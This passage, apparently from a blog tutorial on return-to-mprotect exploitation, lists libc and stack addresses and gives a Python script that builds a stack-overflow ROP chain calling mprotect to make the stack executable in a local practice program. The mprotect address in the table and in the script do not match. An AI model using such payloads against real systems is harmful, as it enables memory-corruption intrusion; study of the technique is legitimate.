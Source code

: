 So we have almost everything ready now.

```1
            0x7ffff7dac000 -- libc_base address
rdi --      0x7ffffffde000 -- base address of stack
rdi --      0x7ffff7feaba0 -- address of mprotect in libc
rdx --      (7)            -- prot value 
            0x7ffff7dee280 -- address of exit() 
```

‍

Here we go:

```python
import struct

libc_base = 0x7ffff7dac000
payload = b"A" * 264                                        # Overflow with 264 'A' characters
payload += struct.pack("<Q",libc_base + 0x0000000000028635) # ret address for stack allignment

payload += struct.pack("<Q",libc_base + 0x000000000002a205) # pop rdi; ret
payload += struct.pack("<Q", 0x7ffffffde000)                # base address of stack
payload += struct.pack("<Q",libc_base + 0x000000000002bb39) # pop rsi; ret
payload += struct.pack("<Q", 0x0101010)                     # length
payload += struct.pack("<Q",libc_base + 0x000000000010d37d) # pop rdx; ret
payload += struct.pack("<Q", 0x7)                           # prot value: 7
payload += struct.pack("<Q", 0x7ffff7eb9200)                # address of mprotect
payload += struct.pack("<Q", 0x7ffff7dee280)                # address of exit function


# print(payload)
with open("input.txt", "wb") as f:
    f.write(payload)

print("Payload written to input.txt. Run with: `./vulnerable_program < input.txt`")


```

‍

![image](/blogs/return-to-mprotect/image-20250328232254-n3z0emy.png)

![image](/blogs/return-to-mprotect/image-20250328232947-t1sx40l.png)

![image](/blogs/return-to-mprotect/image-20250328234004-gp3v4qh.png)

![image](/blogs/return-to-mprotect/image-20250328234912-nvaxjot.png)

![image](/blogs/return-to-mprotect/image-20250328235500-ypfr86i.png)

![image](/blogs/return-to-mprotect/image-20250329001312-74eci4u.png)

![image](/blogs/return-to-mprotect/image-20250329001504-2st3mbr.png)

Finally , The stack is executable now.
